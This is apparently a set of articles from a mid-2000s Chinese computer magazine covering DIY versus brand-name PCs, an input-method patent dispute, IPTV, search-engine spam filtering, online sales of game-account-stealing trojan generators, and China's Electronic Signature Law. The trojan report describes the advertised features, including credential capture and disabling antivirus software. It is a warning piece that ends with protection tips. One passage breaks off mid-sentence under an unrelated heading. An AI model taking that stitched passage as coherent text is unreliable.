至于DIY电脑的价格优势，似乎已经风光不再。我一直持有这样一种观点：如果硬件配置完全一样，大规模采购零配件、大规模生产的品牌电脑具有极大的价格优势，其生产成本完全可以低于零买配件、手工组装的DIY电脑。品牌机以前之所以价格居高不下，一方面可能和生产规模有关，另一方面也不排除厂商追求暴利的可能。有人说，在中国，彩电、冰箱等家电的今天就是品牌电脑的明天，生产工艺逐渐趋于成熟，价格逐渐趋于合理，此话不无道理。

要让DIY完全退出历史舞台，品牌机仍需努力，在品质的稳定性、配置的多样性、外观的时尚性、升级的灵活性、维修的便利性等方面做更多的工作。可以预料，今后的PC市场虽然少了DIY的竞争，但品牌机相互之间的竞争将更加激烈，优胜劣汰的市场法则将使PC市场变得更加成熟，更加理性。

> ——读者陈建军

### 我怀疑品牌机广告的真实性

《DIY时代奏响休止符？》文中提到：DIY电脑无个性，该弃！这似乎背离了DIY的初衷，不知道消费者是买机箱呢，还是在买电脑。DIY的个性不仅仅是体现在外表上吧，更重要的是配件的搭配上，是在高性能的追求上。

至于文中所说的“真难保、费钱”，我认为，因为DIY不被大众接受，所以才需要DIY攒机商们付出更多的努力，来维持自己的形象。否则，谁来攒机？品牌机的名声一大半是广告“喊”出来的，而DIY的却是依靠实实在在的用户口碑“传”出来的，宣传力度的不同必然带来不同的市场表现。而且，我很怀疑品牌机广告宣传内容的真实性。

> ——网友 sujj

### 品牌机售后服务 亟待改进

我是贵刊的忠实读者，看到《DIY时代奏响休止符？》一文后，想在此谈一下自己的看法。DIY在目前是不可能退出历史舞台的。

从经济角度上看，在性能相仿的前提下，DIY比品牌机价格更占优势。目前中国更多的地方消费水平还不够高，价格低廉的DIY电脑正好可以满足他们的需求。

从消费对象上看，学生购机比例相当大，他们考虑的不仅是价格和性能，更考虑如何自由地选择爱机的外观，搭配配件，以此来突出个性，在DIY中享受乐趣。

从售后服务上看：DIY的售后服务正在逐步完善。我买的就是DIY电脑，攒机商也会提供上门服务（编者：在大城市不是很普遍）。而品牌机在上门服务上做得很差，有些人认为他们只管销售，不管售后，有问题一拖再拖，这一点我是深有体会的。

> ——读者十二少

### 让市场去评判 去选择

我来说说DIY中的兼容性问题。我认为，只要购买知名品牌的产品，兼容性就不再是问题。如主板买华硕、微星、技嘉、硕泰克等。显示卡亦是如此，就连机箱、电源、鼠标、键盘这些配件也尽量选用世纪之星、金和田、多彩、富士康、微软、罗技和明基等。出现兼容性问题的一般都不是一线大厂的产品。

不可否认，某些品牌机也会出现兼容性问题。前些日子，我的同事购买了某品牌机，商家为了讨好他，将原来预装的DOS换成了Windows XP。在安装声卡时出现了一些麻烦，但这些问题在说明书中并未提及。我认为，品牌机厂商应该在诸如说明书的撰写等细节问题上下功夫。

在这里我无意为DIY正名，更没有贬低品牌机的意思，我只是想通过简单的事例，说明DIY也好，品牌机也罢，是市场这只无情的手在操控它们的“命运”。至于DIY该不该退出历史舞台，或者何时退出历史舞台，我认为不是由你我的喜好决定的，而是由市场决定的。

> ——读者钱东

### 品牌机宣传有漏洞

贵刊刊登的《DIY时代奏响休止符？》一文我已拜读，对于作者的本意我不想深究，我与作者素不相识，写此文只为与大家共同探讨。

追求性价比是DIY用户的最终追求。DIY的确非常费事，要从几十个品牌、上百种商品中选择出配置合理、价格适中的电脑配件，的确需要下一番功夫。可我们这么做是为什么呢？就是为花尽量少的钱，组装出性能更高的电脑！

品牌机宣传上避重就轻，让用户头疼。厂商总是喜欢把品牌电脑的亮点展示给消费者，我不否认他们的做法，但是消费者想要具体了解品牌机的配置实际上是很难的，因为所有品牌机电脑的产品描述中，对电脑的具体配置总是避实就虚。只说是高性能显卡、80G硬盘、19英寸显示器等等，具体指标很少给出，毕竟对电脑硬件非常了解的人不多啊。

宣传上的漏洞好弥补，但是如果让消费者对品牌电脑产生了信任危机……

> ——网友世界第一等

在整理忠实读者和热心网友的来稿时，我们删节每一篇来稿都是那么的依依不舍，因为你们的字字句句都是那么的宝贵。你们的建议和DIY用户的心声不仅是《电脑爱好者》的财富，更是相关IT企业的财富，也是IT行业蓬勃发展到今天所积累下来的巨大的财富。但是，为了给大家创造一个尽量客观公正的讨论氛围，我们特意邀请了配件厂商和品牌机厂商参与到大家的讨论中。参与讨论的厂商虽不是全部，却也有一定的代表性，观点仅供大家参考。

### 解读DIY文化

知名的配件供应商华旗这样解读DIY文化：DIY市场发展至今，已经成为中国IT市场的一道独特的风景线。许多资深的玩家和新入行的玩家都对此情有独钟。这里，DIY已经超越了装配的枯燥，已经沉淀出文化。最新的配件产品，最高性能的配置，最抓狂的电脑测试……这些都是DIY者乐此不疲的话题，这些话题被一批又一批入行的新人传承并发扬光大。对于这些爱好者，DIY是难以割舍的情感，DIY是一种荣耀，是一种精神，更是一种文化。

经过十年的市场培育，电脑产品和电脑知识正在得到普及，DIY的影响也逐步扩大。我们看到，之前由于受众对于电脑知识了解甚少，许多人对电脑怀有敬畏之心，觉得电脑是个深不可测的高科技产品，因此，他们满足于整机，自己只管使用，不过多地研究。但是DIY文化打破了这些思想，让更多的人，有了动手实践的机会。让人们认识到，电脑不是那么不可企及，一样可以让人卸个七零八碎。DIY对于培养人的探索精神，改变国人等待、求援，而不愿自己动手，不勇于实践的思想风貌有着最为深远的影响。这种影响是其他教育方式不可代替的。

### 追个性会让 DIY长期存在

DIY是一个群体，是一种乐趣，费时、麻烦、挑战、刺激都与快乐相伴。所以DIY会一直存在下去。

## 如何定义优质PC

乐同在。之所以有那么多人热衷DIY，就是因为他们可以按自己的选择挑选配件并不断修改配置，这样的电脑肯定是性价比最高的，所以不能说DIY贵。品牌机不一定就便宜。比性能，可能DIY最骄傲的还是同价时，性能高。性能相同时，肯定价格是DIY的优惠。

DIY是一个群体、一个用户特性，而不是一个产业，不存在消亡与消失。只要这个特征的人群存在，就有它存在的理由。

既然整个社会都在向个性化发展，最前沿IT科技不可能不体现个性了。在国外有30%的DIY市场，都是由高端用户来支持的，他们会挑选一线品牌，通过顶级的配置来实现自己的要求。

在惠普，我们用‘高科技、高价值、最佳用户体验’来定义一台优质的畅游人PC。我们希望把国际上最新的科技以经济合理的价格和最人性化的方式，为国内家庭用户创造最佳使用体验。

举例来说，我们最新的银色液晶显示器全系列都拥有16ms的屏幕响应速度，支持DVI数字视频接口这样的高科技，他们给用户带来最佳观看效果的使用体验，并且用户并不需要付出很高的成本就可以享受到这些非常实用的科技。

‘高价值’的涵义也很全面，在惠普，我们用用户购买一台PC的总体拥有成本（TCO）和投资回报率（ROI）来衡量价值，用户不但会付出购买价格，还会付出维护、维修、升级等物质和时间上的成本。如果用户为了买PC时少花钱，但没想随后的维修升级非常麻烦，这就得不偿失了。

## 按需定制 迎合DIY用户

在我们直销模式下，用户享受到的不仅是便利，更可以享受‘按需定制’的DIY感觉。

戴尔接收到消费者的订购信息后，即组织生产、安装并送货，协助客户进行安装，并提供售后支持。通过这种模式，消费者实现按需和个性化的定制。

## 火热讨论仍在进行中……

展开本次讨论的意义远不止让各方分出胜负那么简单，通过讨论能让IT行业内各方面看到自己的优点与不足，加以改进，实现协调发展，共存共生才是讨论的最根本意义。

目前，与我们沟通的方式是多种多样的。您可以选择登录CFan论坛bbs.cfan.com.cn，参与火热的讨论；也可以发邮件到viewpoint@cfan.com.cn。您的每一个观点我们都会仔细斟酌，您反映的每一个问题，我们都会交给有关各方。

值得注意的是，在现在的讨论中，有部分网友夹杂了情绪化的内容，我们希望此次讨论能够在一个平等、理性、和谐的氛围内得出对产业发展有促进作用的结果。在接下来的刊物里，我们会引入更多产业界的观点丰富讨论的内容，敬请继续关注本刊的后续报道。


## ‘语句提示技术’专利权如何行使？

语句提示技术，有点像输入法中的智能联想输入技术。它的出现极大地加快了用户汉字录入的速度，类似技术被广泛应用于微软拼音、万能五笔、极点五笔等知名输入法中。有些用户习惯性地认为，输入法提供此项技术理所应当，那么，在你享受该技术带来的快捷录入的同时，是否考虑过为这样一项实用技术买单呢？

## 智能五笔之父的烦恼

2004年10月13日，专利申请号码为991159314的‘汉字输入中的语句提示及输入方法’专利被国家知识产权局授予申请人陈虎和黄安蓉。申请人中的陈虎先生正是著名五笔输入法——智能五笔输入法的开发者。一项技术得到国家的认可和法律的保护，本应是一件令人兴奋的事，谁知陈虎却迟迟不能享受专利拥有者的快乐。

陈虎的烦恼也正是很多专利拥有者的烦恼。目前，国内使用该专利技术的极点五笔部分版本等有着庞大的用户群，且极点五笔是完全免费提供给用户的，这样一来，对于‘语句提示技术’专利存在着侵权的隐患。那么，如何让这些用户继续享受专利技术带来的便利，同时还要保护专利，成了陈虎日夜思夜想的难题。

身为一名专利工作者的陈虎深知保护专利的重要性，但根据《中华人民共和国专利法》第六十三条规定，在专利申请日前已经制造相同产品、使用相同方法或已经作好制造、使用的必要准备，并且仅在原有范围内继续制造、使用的不视为侵权，另外就是专为科学研究和实验而使用有关专利的也不视为侵权。

但陈虎认为，如果专利使用者的行为影响了他人在市场上的竞争能力，即使没有挣钱，同样还是一种市场行为，即生产经营行为。同样，判定是否‘从事科学研究和实验’是不以使用者的意志为转移的，如果使用者把‘科学实验’搞到了社会上，这还算科学研究和实验吗？

## 极点五笔之父的让步

自从极点五笔诞生之日起，由于功能强大和界面友好，越来越多的五笔输入法用户选择使用极点输入法。

使用者仁先生对记者说：‘自从智能五笔开始收费，我就开始用极点了。使用中，我觉得很多细节之处让我越来越喜欢，并且现在有些难以割舍了。’也许仁先生出于使用习惯而选择了免费的极点输入法，但更多用户选择极点是出于对智能收费的不满。

在给记者的E-mail回复中，极点五笔的发明人杜志民先生充分地表达了他对专利保护的尊重。他说：‘关于极点与智能语句的问题大概是从极点3.5版前的一个版本开始的。当时极点用户还不多，也没有什么用户提出增加‘语句提示’功能，只是出于一个编程人员的爱好，我想试试看能否也实现这一功能。于是便基本按照智能五笔的方式实现了极点无笔的‘语句提示’。当我第一次收到陈虎先生的律师函后，便在2003年12月31日发布的极点3.5版中去掉了这一功能。到了2004年9月，发现陈虎先生的专利申请并未在相应时间内获得授权，且在诸如万能五笔等其他输入法中也出现了类似功能，猜想陈先生的申请未能通过，加之又有用户提出希望增加此功能，于是我便在极点的4.X版中恢复了。但最近在国家知识产权局网站查询时发现，陈先生已经于2004年10月获得‘语句提示技术’专利，所以在4.2正式版发布时彻底去掉了这一功能。’

## ‘语句提示技术’专利该如何行使？

回顾IT行业的发展史，我们看到，被业界公认为‘互联网之父’的伯纳斯·李，发明了WWW技术，改变了全球信息化的传统模式。然而比他的发明更伟大的是，伯纳斯·李并没有像其他人那样为‘WWW’申请专利或限制它的使用，而是无偿地向全世界开放。

但我们也看到，1993年，留美学者姜万勐和孙燕生研究出了世界上第一台VCD，但只是作为先行者的万燕品牌，并没有及时取得VCD整机专利技术。当VCD市场打开以后，许多厂家纷纷仿制、组装，使万燕由‘先驱’而成‘先烈’。

诞生于1987年的MP3编码技术在近十年的各种应用中一直是免费的。但在1998年，专利拥有者Fraunhofer才声明要征收版权税。其实，MP3之后有许多编码技术是免费的，比如OGG，但因为MP3已经得到世界公认，MP3播放器厂商也不得不花钱买专利使用权。如果一开始MP3就收费，可能今天的乐坛霸主就不是它了。

也许陈虎先生的初衷并不是一定要打垮谁，他表示，希望与各界开展正常的合作，以共同推广这一技术，使这一技术更好地为我国汉字输入领域服务。但保护专利究竟该走哪条路子呢？

（本刊实习记者 张健）

## 陈天桥看好网络电视 数字电视也能玩网游

21世纪什么最休闲？看电视！都是看电视，怎么新新人类抛弃大彩电，抱起了电脑呢？唉，都是陈天桥惹的祸。谁让大彩电不能玩网游，不能看新闻呢。可人家陈先生说了，迟早有一天，会让新新人类重回客厅，坐在大彩电旁边。不信？看看陈先生是怎么做的。

国家广电总局在去年11月举办的‘二十一世纪广电传媒高峰论坛’上公布，我国将于2008年全面推广数字电视，2015年停止模拟电视播出，实现数字广播。电视的全国覆盖。数字电视方兴未艾，但因收购新浪而闻名天下的陈天桥却坚持豪赌网络电视(IPTV)。数字电视和网络电视的市场定位几乎完全相同，也难怪背后的大东家广电系统和电信系统争得面红耳赤。以陈天桥为代表的民营资本的倾向，无疑会加重某一竞争砝码。网游的成功，让业内人士纷纷看好陈先生的判断，网络电视是否也能一飞冲天呢？


网络电视，原本是指网民通过互联网收看电视的形式，它以电信网络为载体，传播终端遍及所有网络能够覆盖的设备。网络电视的最大优点就是能根据用户的选择配置多种多媒体服务功能，包括电视节目、可视电话、互联网浏览以及商务功能。

权威数据显示，截至2004年底，中国数字电视用户增加到120万户左右，而同期网络电视的用户则增长到219万户左右。网络电视的发展得益于国内宽带网络的发展，据CNNIC(中国互联网络信息中心)统计，我国宽带网络用户已经突破4280万，其普及速度已经超过了任何一种上网形式。随着互联网内容的丰富多彩，互联网企业已经不局限于用简单的文字和影音盈利的商业模式，实际上，像陈天桥一样的网络巨匠迫切需要找到短信、网游以外的增长点。一位业内资深人士认为，以视频为驱动点的应用模式正是他们所需要的。



4月11日，所有与网络电视相关的企业拥有的《网上传播视听节目许可证》都已到期，此后要开展网络电视业务的机构必须领取新牌照。业内纷纷猜测新牌照只有广电“嫡系”企业才能获得。那么陈天桥的网络电视之梦又将如何名正言顺地启动？陈天桥此前曾对记者表示，用户通过连接到互联网上的电视机可以做很多事情，看电影，听音乐乃至进行电子商务。盛大并不会涉足到这些自己并不擅长的领域当中，像电影和音乐就完全可以交给广电的公司去做。陈天桥的言下之意很明显，拿到网络电视牌照的广电企业和盛大合作，将会在第一时间占领绝大部分的市场空间并取得领先优势。

## 数字电视还不借机“圈地”？

早在几年前，微软曾提出过“维纳斯计划”，其概念正是今天的网络电视，但那个计划当时失败了。原因是多方面的：一方面当时的接入网络带宽远未达到传输视频节目的水平，另一方面视频压缩及显示技术都不能同今天的水平相比，第三则是受限于小小的机顶盒终端。

现在情况不同了，网络电视要发展，硬件上已无障碍，加上陈天桥等具有丰富内容运作经验的企业的加盟，网络电视具有一切成功的潜质。但具有成功的潜质就一定能成功吗？ 非也！网络电视有个最致命的弱点就是质量难以得到很好的保障。同时，在节目传输的连续性上，也存在不足。一般在局域网内部，用户采用点对点的点播方式。当很多用户同时在线点播时，网络就会形成堵塞，大大影响用户收看网络电视的质量。很难想象电脑屏幕上表现一般的画质被放大到电视上效果会怎样。

说了你可能不信，用广播电视网(简称广电网)传输的数字电视画质可以逼近DVD。数字电视讲究的是数字化，即电视节目制作、编辑、播出和收看实现全数字化操作，可是要达到传送数字电视的清晰度所需要的网络带宽目前只有广电网可以达到。记者从负责北京市数字电视推广的相关机构了解到，一份涉及收费标准、运行模式的数字电视方案已经草拟完毕，正在等待有关部门审批。

## 就在网络电视牌照还未重新发放之际，数字电视为何不借机“圈地”？

据介绍，造成目前国内数字电视推广缓慢的原因是多方面的。一方面是数字电视信号播放的国家标准还没有出台。一位业内人士介绍，现在数字电视播放标准有两套方案，各方都在为谁能成为最终标准角力，如果这两套标准不能统一，意味着所有的机顶盒将不能正常工作。另一方面，各地网络状况参差不齐以及推广数字电视的资金不足，也成为数字电视推广缓慢的原因。

## 来自“移动数字电视”的挑战

目标用户的定位惊人相似，使得网络电视和数字电视阵营无时无刻不在明争暗斗。事实上，在数字电视标准尘埃落定之前，网络电视显然已经暗度陈仓，而且很成功地推向了市场。不过，一种被视为“移动数字电视”的技术正在对网络电视发起新的挑战。它就是数字多媒体广播，英文名称DMB (Digital Multimedia Broadcasting)。 3月22日，广东电台数字多媒体广播正式开播。4月份，北京电台也开通了数字音频广播节目。可别小瞧数字广播，有了这种技术，用户不仅能听到CD音质，还可以在移动中享受电视的乐趣。而且，值得一提的是，由于数字多媒体广播内容的制、编、播也是基于数字技术的，因此用户看到的移动电视从某种意义上说也算是数字电视。 在北京电台试播仪式上，记者与DMB来了一次亲密接触。看到模特手中展示的DMB电视、DMB手机，在场的朋友无不为这种新颖别致，成本低廉的移动电视喝彩。据业内人士武先生讲，DMB的定位在于移动小窗口视频(一般不超过10英寸)，由于采用了广播的形式，使得用户收看这样的节目无需为带宽和流量买单。与现有的掌上电视对比，中国移动用户使用手机看电视需要登录GPRS网络，计费方式是按照电视节目所消耗的实际流量来计算的;中国联通CDMA用户除了要交纳流量费以外，看电视所耗费的时间还需要交纳通讯费。而用支持DMB功能的手机看电视，是不需要另付费用的。

## 3G是网络电视的颠覆力量？

2005年是我国信息产业发展的关键之年，3G牌照的发放、网络电视牌照的发放、数字电视标准的确定等，都将在广电、通信领域酝酿巨大的产业机会。 中国电信、中国网通等固网运营商和盛大等民营企业组成的强大资本力量对网络电视的虎视眈眈，已经让广电网络的老大们坐不住了。一旦宽带网络改造成功，直接提供清晰度接近甚至超过数字电视的内容，他们就会丧失数字电视未来发展的话语权。 早在1999年，面对全球“三网合一”(电信网、广电网、互联网)的趋势，我国就曾掀起要求发展全业务运营商(经营所有电视、电信、互联网业务)的呼声，但面对当时空前强大的电信运营商，广电总局强烈反对这一建议，同年，国家发布75号文件，明文规定禁止广电业和电信业互相渗透。但宽带网络的发展速度是惊人的，其传输速度的每一次扩容更是直接挑战传统的有线网电视节目传输方式。 我们已经清楚地看到，宽带网络再提速的话，一个以IP技术为基础架构的互联网数字电视点播平台就可以迅速形成，改造速度是十分惊人的，其相对低廉的改造成本也是对数字电视发展十分致命的冲击。显然广电总局意识到了，因此国内数字电视的发展步伐必须加快！ 实际上，固网运营商之所以对网络电视如此着急，也是出于对未来移动网络运营商的王牌—3G网络电视的恐惧，如果未来卫星电视开通的话，那么竞争将会异常激烈，网络电视的“钱”途也很难讲了，所以电信运营商认为网络电视的步伐也必须加快！

## 畅想2008

随着新技术的不断应用，数字电视的范畴也在逐步地拓展。同样精彩的电视内容，不一样的传播方式，就带来了各个行业共同发展的机会。网络电视有所长必有所短，3G网络的优势也在不断受到各种无线宽带技术的挑战，在没有出现任何一种颠覆力量的时候，各个行业协调发展，才能让百姓更早地目睹数字电视的芳容。 也许对老百姓来说，数字电视仅意味着可以收到更多的电视节目，看到更清晰的电视画面，至于哪些内容是广电系统提供的，哪些内容是电信系统提供的，有谁会关心呢？ 我们虽不知道2008年的电视到底是什么样，却也能想像那时的情景。在家里，全家人围坐在电视机旁，看到的是DVD般清晰的电视图像，听到的是影院般的音响效果;在户外，兄弟姐妹们拿着手机随时随地看赛事，不再受线缆的影响;在单位，网络上实时传送的是精彩的比赛内容;无论在哪儿，收看任何比赛都可以锁定镜头，跟踪喜欢的队员，把喜爱的电视画面传送到手机…… (本刊实习记者 张健)

## 个人网站真的一夜消失？

近日，热心读者章先生反映，Google和百度搜索引擎都在屏蔽“垃圾网站”，他开始担心自己苦心维护的个人网站可能干不下去了。据记者了解，Google和百度的动作从3月份开始，起初是为了屏蔽“SEO站点”，但4月份以来，越来越多的个人网站站长变得忧心忡忡，他们并没有传授恶意提高搜索引擎排名的诡计，为什么也要担心自己被搜索引擎以“垃圾网站”论处呢？

小知识 什么是SEO？ SEO是Search Engine Optimization的缩写，翻译成中文为“搜索引擎优化”，也就是使用某些技术，使别人在搜索引擎中进行搜索时，你的网站能够排在搜索结果页面最靠前的位置。 SEO的主要工作是通过了解各类搜索引擎如何抓取互联网页面、进行索引以及确定其对某一特定关键词的搜索结果排名等技术，对网页进行相关优化，提高其在搜索引擎中的排名，从而提高网站访问量，最终提升网站的销售能力或宣传能力的技术。 在国外，SEO开展较早，早在1997年左右就有人从事这方面的相关工作，那些专门从事SEO的技术人员被Google称之为“Search Engine Optimizers”，简称SEOs。由于Google是目前世界上最大搜索引擎提供商，所以它也成为了全世界SEOs的主要研究对象。为此Google官方网站专门有一页介绍SEO，http://www.google.com/webmasters/seo.html。

## “垃圾网站”范围在扩大

Google屏蔽“垃圾网站”的工作是从3月26日开始的，当时Google的工作重点是那些专门传授如何用非正常手段提高网站搜索排名的网站，也就是所谓的“垃圾网站”。你也许不知道，当你在Google或百度的搜索栏里输入一个关键字后，所显示出来的相关网页列表是很讲究先后顺序的，排在第一页的网站就有机会提高身价，吸引网民更多目光。 继Google之后，百度也有所行动。为了增强用户的上网体验，百度加大了反垃圾网站的力度。不过，据有关人士透露，最近几家比较著名的搜索引擎纷纷扩大了自己的“垃圾网站”的范围。 据读者章先生报料，某搜索引擎已经偷偷地将很多个人网站划在了“垃圾网站”之列，也就是说在该搜索引擎中根本搜索不到。

## 小心窃取密码的陷阱

## 木马病毒生成器有何作用

木马是什么？简单地讲，就是一种为完成某种目的而潜伏在你机器中的程序。木马从功能上来讲一般分为专用木马和全功能木马，举个例子，传奇盗号木马和奇迹盗号木马都是专用木马，他们只能实现单一功能。这种木马的特点是使用方便，功能单一，极易入门(正是因为简单才导致了今天的网络“伪黑客”泛滥)，而且欺骗性高，有的甚至可以完全模仿游戏的登录界面。另一种是全功能木马，像大家都耳熟能详的“冰河”、“B02K”等都属于这一类。这样的木马可以使你的机器受到黑客的完全控制，格式化硬盘都可以，何况是盗号。

现在的网络游戏非常火爆，各种游戏虚拟装备、游戏账号和密码都可以在现实市场中转换为现金，于是很多不法分子开始纷纷利用木马病毒去窃号，售卖病毒生成器也就成了一桩诱人的“生意”。利用木马病毒生成器，不会编写病毒程序的人也可以轻松制造出木马病毒。这些人利用木马生成器生成木马，并利用诱骗的方式导致其他用户下载并运行该木马程序，盗取用户的游戏账号。

早期的盗号者，要具有一定的PC知识，对网页的制作、空间的使用都要有所了解。同时还要一个很重要的元素，他必须是这个游戏的玩家。众所周知，每款游戏里的情况都复杂多变，如果不作为一个玩家，他根本无法了解装备的价格。由于早期装备交易没有大环境和便利的条件，所以盗号规模都不大，一两个人就可以做。随着木马制作越来越精良，并且功能更加“傻瓜”，无论有没有电脑技术，只要对某款游戏有所了解就完全可以做盗号。只要想做，随便购买一款木马就可以尝试一下。这些小盗号者流窜各网吧之间，破坏机器上安装的杀毒软件和还原精灵等软件，手动放置木马。由于很多小盗号者的大量出现，使得装备价格下跌，一些资金和技术不是很高的盗号者也消失了。能够存留下来的一般都是以群体出现，在这样的群体里必须有一个对PC技术十分了解，并随时可以更新自己软件的技术人员。然后在他的带领下，雇佣3～5人不等，从事着盗号流水作业。

盗号者给予玩家的损害有目共睹，由于玩家的沉迷其中和对网络装备的过分欲望，是产生巨额利润的温床，而互联网的快速发展和与之相配套的法律法规相对滞后，又使得我们这一类人有漏洞可钻，一个畸形的产业就是这么形成的。

从2003年4月起，因为各种杀毒软件的升级和游戏的版本升级，免费的木马已经被淘汰。制作木马的人也察觉出这块蛋糕的巨大，不再提供免费版本的升级，而是改成了出售木马，包括:程序型、网页型、服务器型。木马也由简单的键盘监听衍生出句柄截取型、嵌入型、扫描型等等。有些不但拥有自己的网站宣传，同时还可以在他们提供的BBS里讨论，并且几个主要城市都有他们的代理。

## 网上公开叫卖木马病毒生成器

接到陈勇读者和甄鲲鹏读者的报料后，记者马上通过Google搜索“木马病毒生成器”、“木马销售”等关键字，的确找到很多公开出售木马病毒生成器的网站和论坛。

记者在某知名游戏网站的页面中就看到qianchongzi发的帖子(见图1)，他声称面向全体玩家，承揽各项业务，包括:出售木马盗号信件(传奇、传奇3、传奇世界、英雄年代、密传、征服等游戏)、万能算号(玩家提供ID算出其密码)、木马编程(按客户要求制作木马盗号系统)、出售木马程序、指定IP攻击。





后来，记者还发现一家“××木马城软件专卖店”和“×火软件”的网站中(见图2)，均有出售针对不同游戏、程序的木马程序。在“×火软件”的网站上，专用于盗窃各种热门网络游戏的木马程序被一一标价公开出售，像比较热门的网络游戏《传奇3》的木马程序标价160元(要网页加99元)，企业版木马生成器标价800元。其功能介绍上写着:截取得账号信息包括区域，服务器，账号，密码，新增加截取人物名称、等级、仓库密码和装备信息的功能；能自行关闭多种杀毒软件及防火墙；过滤私服，全面支持各种外挂程序。更让人不解的是，整个网站从销售到售后井井有条，还为顾客提供销售客服QQ。此网站还赤裸裸地教唆别人加盟，称“辉煌的事业期待着你的加盟！COME ON！这里钱途无限！”。

种种迹象表明，网上公开叫卖病毒(木马)生成器的现象已呈泛滥之势。

## 销售者和购买者均涉嫌违法

记者就此采访了本杂志社法律顾问周涛。周律师指出，依照我国相关法律之规定，编写、传播电脑病毒是违法的，将承担法律责任。如果通过互联网发布违禁品广告兜售电脑病毒，还违反了《中华人民共和国广告法》、《全国人民代表大会常务委员会关于维护互联网安全的决定》、《中华人民共和国刑法》的有关规定。非法广告中兜售的违禁品妨碍社会安定和危害人身、财产安全，社会危害性极大。这些兜售行为都是违法行为，有些行为还构成犯罪。

## 教你六招防范木马

相信大家在去年和今年的杂志上，都看到不少防范木马的文章。这里，再给大家一些建议。

- 无论你使用的是什么操作系统，请打上所有能打上的补丁。
- 安装至少一种正版杀毒软件，千万记得对病毒库进行更新。
- 不要随意收取网友发来的可执行文件或是点击网友发来的网站链接，从网上下载的东西最好也要先杀毒。
- 安装具有访问控制功能的网络防火墙。
- 不要随意向别人透露自己的个人信息，如生日、喜欢的数字等。
- 不同网游不要设成一样的账号和密码。

(本刊实习记者 张健)

## 《电子签名法》正式生效 应用从电子印章开始

《电子签名法》虽已于2005年4月1日正式生效，却一时间不能飞入寻常百姓家，连搞IT的人都一头雾水，甚至有媒体将《电子签名法》理解为指导人们进行数字认证和数字签名这么简单。究其原因，专家指出：它有可能成为第一部老百姓看不懂的法律。为什么这么说呢？



### 认识它 不能不提电子商务

随着互联网的快速普及，电子商务对百姓已经不是什么新鲜词了，但看似再简单不过的买卖双方网上交易的过程中，一直缺少一种力量。如何核实买卖双方身份的有效性、真实性？如何保证双方交易的过程符合法律程序？如何制约非法交易的发生？这一连串还没有解决的问题成为了我国电子商务发展过程中的绊脚石。

说起电子商务，你可能会觉得这是一个陌生的行业，更不知道跟我们有什么关系。其实，电子商务发展到今天，它的概念可以宽泛地涵盖所有与电子化交易有关的信息交换过程，比如由此衍生的电子政务、网上购物、网上银行，甚至是电子化的普通交易。北京市地税局局长王纪平在今年的中国国际电子商务大会上公开表示，现在北京市税务系统的信息化建设基本完成，纳税人很多方面是可以通过我们的系统进行直接纳税了，但如此一来，和百姓息息相关的活动中出现了越来越多的电子文件交换过程，但这些交换不具有法律效力成了王局长原来最为担心的问题。

正因为电子商务过程中缺少一种制衡力量，《电子签名法》才显得尤为重要，它扮演着交易双方身份的核实者、安全交易的保卫者、非法交易的打击者的三重身份。它出台的意义不仅如此，电子商务协会的负责人指出，《电子签名法》是第一个和一类技术结合得如此紧密的法律，虽然文字仍是中文，但由于过于专业，可能直接影响百姓对新法条的理解。它充满了信息化时代的特点，但在电子签名还未在个人领域普遍应用的情况下，国家更想借此法律催生一个全新的产业。那么这个全新的产业是什么呢？

### 电子印章促进《电子签名法》普及

《电子签名法》的产生经历了漫长的专家探讨与制订过程，开始曾命名为《电子签章法》、《电子数据法》等。2004年修订为《电子签名法草案》即《电子签名法》的前身。为什么叫做《电子签名法》呢？



必须找到一个符合国情的数字认证办法。纵观我国从古至今，无论是政务还是商务都是建立在印章信用体系上的，既然中国国情如此，用电子印章代表电子签名的设想便很自然地被提了出来。事实上，很多合同、文件不仅需要签名而且还进行盖章。电子签名自然就涵盖了数字签名和电子印章两方面内容，《电子签名法》的名称便由此而生。和传统的印章管理办法一样，具有法律效力并有中国特色的电子签名——电子印章，也是由公安部、中国印章协会双方批准的。就实际应用效果来看，目前这种容易被百姓理解的电子签名形式正在实质性地促进《电子签名法》的普及。那么，什么是电子印章，我们如何在信息时代应用到属于自己的电子印章呢？

### 揭开“电子印章”的面纱

所谓电子印章，是指以电子形式存在，依附于电子文件并与其逻辑相关，可用以辨识电子文件签署者身份及表示签署者同意电子文件内容者。简单地说，一个电子印章可以是任何经电子传送的符号，这个符号象征通讯者愿受合法性约束的意图。

根据《电子签名法》，电子签名必须同时符合“电子签名制作数据用于电子签名时，属于电子签名人专有”、“签署时电子签名制作数据仅由电子签名人控制”、“签署后对电子签名的任何改动能够被发现”、“签署后对数据电文内容和形式的任何改动能够被发现”等若干条件，电子印章从申请到制作再到使用的全过程也必须符合上述条件。

公安部物证鉴定中心主任、北京刑技技术开发公司安全数字签章项目负责人李潇君先生解释说：《电子签名法》的出台还只是个总纲，并没有很多规范来制约现在从事电子印章技术的公司。以至于产生一种暂时的混乱局面，鱼龙混杂，良莠不齐。有人觉得用个Word，用个WPS，用个画图软件，或者其他系统不就能生成电子印章吗？如果真的如此，就失去了立法的意义和初衷。《电子签名法》的出现是一个推动电子商务发展的法律法规，目的是建立一个在互联网上安全可信的信用体系，网上信用一直是困扰电子商务发展的一个主要因素。

世界最大的电子商务网站阿里巴巴和下属的淘宝网就是个典型例子，从事个人网上交易的淘宝网很难确定买卖双方的信用度，很多卖家自己炒作自己的信用度，现在甚至出现了专业化的炒作信用度的人，100个信用点100块钱随处可见，虽然淘宝开发了“支付宝”，但也只是保证资金不被骗走，并没有真正解决信用体系的问题。假如双方在确定合同关系时，电子合同交换的同时，使用了经过复杂加密手段的电子印章确定了双方的身份，就可以有效地遏制违法行为的发生。然而，这样一个电子印章认证体系的建立必须是全国性质的，通过公安部的认定，只有这样才能有效的保证电子商务买卖双方的合法权益。

经李警官的现场演示，记者看到的电子印章申请和使用过程与普通印章并无本质区别，而且电子印章由于是由公安部门认定和管理的，信息交换的双方完全可以放心地使用。

### 电子印章使用并不复杂

记者走访了取得特种行业资格的北京某电子印章业务制作代理企业，发现对个人或企业法人来说，制作这种安全电子印章并不复杂。申请者只需要登录一个特定的网站，提交各种相关手续就可以拥有并使用这样一款新产品。安全电子印章的使用非常简单，只需将一个U盘大小的存有客户证书的E智能钥匙通过USB接口与电脑相连，在键盘上输入相应的密码后，用鼠标点击电子文件下方的空白处，一个有着单位名称的相应内容的公章（或合同章、财务专用章、发票专用章、名章）就完成了加盖过程。

